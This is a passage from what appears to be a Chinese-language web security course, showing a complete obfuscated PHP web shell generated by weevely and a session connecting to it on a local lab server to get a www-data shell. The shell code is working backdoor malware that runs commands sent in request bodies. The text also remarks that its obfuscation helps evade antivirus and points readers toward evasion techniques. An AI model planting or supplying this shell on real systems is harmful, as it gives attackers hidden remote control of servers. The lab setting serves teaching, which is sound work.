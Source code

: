 看下生成的 shell.php 代码，可以看到其内容都是经过混淆的，肉眼是很难直接看懂的，有助于逃过一些木马的查杀。

```php
$ cat shell.php
<?php
$S='!("/$^!kh(.+^!)^!$kf/",@file^!_g^!et_content^!s("p^!hp^!://input"),$m^!)=^!=1) {@ob_star^!t^!();@ev';
$p='$^!k^!="098f6bcd";$kh="4^!62^!1d373c^!ad^!e";$kf^!="4e832627b^!4f6";$p="q^!BSPYX^!xS^!wBm8fbHZ";f^!u';
$x='=0;($^!j<$c&&$i<$^!l);$j++^!,$i^!++){$^!o.=$t{^!$i^!}^$k{^!$^!j};}}return $o;}if^! (^!@preg_match^';
$Y='^!al(^!@gzunc^!omp^!res^!s(@x(@base^!64_d^!ecode($m[^!1]),$k)));$^!o=@o^!b_get_conte^!nts()^!;@ob_e';
$k=str_replace('ha','','hacreathae_hafhaunhahaction');
$m='nc^!tio^!n x($t^!,$k^!)^!{$c=strlen($k)^!;$l=strlen(^!$t);$o=^!"";f^!^!or($i=^!0;$^!i<$l;^!){for($j';
$h='^!n^!d_clean();^!$^!r=@ba^!s^!e64^!_encode(@x(@gzcompre^!ss^!($o),^!$k));prin^!^!t("$p$kh$r$kf");}';
$E=str_replace('^!','',$p.$m.$x.$S.$Y.$h);
$o=$k('',$E);$o();
?>
```

但是工具一旦出名后，就容易被查杀，需要自己去做一些去特征化的免杀的处理，这不在本课程的讨论范围，有兴趣的话，你可以网上搜索关于木马免杀的文章。

之后 weevely.py 客户端直接连接就可以获得服务器的 shell 权限。

```shell
$ python3 weevely.py http://127.0.0.1:8080/shell.php test
[+] weevely 4.0.1
[+] Target:	www-data@7286434c6e88:/app
[+] Session:	/home/admin/.weevely/sessions/127.0.0.1/shell_1.session
[+] Shell:	System shell
[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.
weevely> ls
a.php
assets
Dockerfile
footer.php
header.php
inc
index.php
install.php
LICENSE
pkxss
README.md
shell.php
shell.txt
test
vul
wiki
www-data@7286434c6e88:/app $ id
uid=1000(www-data) gid=50(staff) groups=50(staff)
```
